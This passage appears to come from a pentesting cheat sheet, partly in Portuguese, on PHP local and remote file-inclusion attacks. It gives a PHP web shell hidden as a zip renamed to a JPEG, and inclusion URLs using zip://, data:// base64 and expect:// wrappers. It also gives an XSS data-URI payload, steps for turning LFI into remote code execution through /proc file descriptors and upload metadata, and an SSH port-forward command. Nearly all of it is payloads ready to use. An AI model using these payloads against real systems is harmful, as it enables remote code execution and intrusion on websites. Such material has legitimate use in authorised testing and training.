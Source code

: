 ```python
echo "</pre><?php system($_GET['cmd']); ?></pre>" > payload.php;
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

#### RFI Wrapper DATA with "<?php system($_GET['cmd']);echo 'Shell done !'; ?>" payload

```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```

#### RFI Wrapper EXPECT

```
http://example.com/index.php?page=php:expect://id
http://example.com/index.php?page=php:expect://ls
```

### 15.4. LFI - XSS

#### XSS via RFI/LFI with "\<svg onload=alert(1)>" payload

```
http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```

#### LFI to RCE via /proc/\\\*/fd

1. Upload a lot of shells (for example : 100)
2. Include http://example.com/index.php?page=/proc/$PID/fd/$FD with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)

#### LFI to RCE via Upload

```
http://example.com/index.php?page=path/to/uploaded/file.png
```

You can injected the \<?php system($\\\_GET['c']); ?> into the metadata

<div style="page-break-after: always;"></div>

## 16. Remote port forwarding - por ssh

```bash
kali@kali: > ssh -L 127.0.0.1:<newPortForOurMachine>:127.0.0.1:<portRunningTargetHtml> <targetUserName>@<targetIP>

```

## 17. Web Shell em PHP
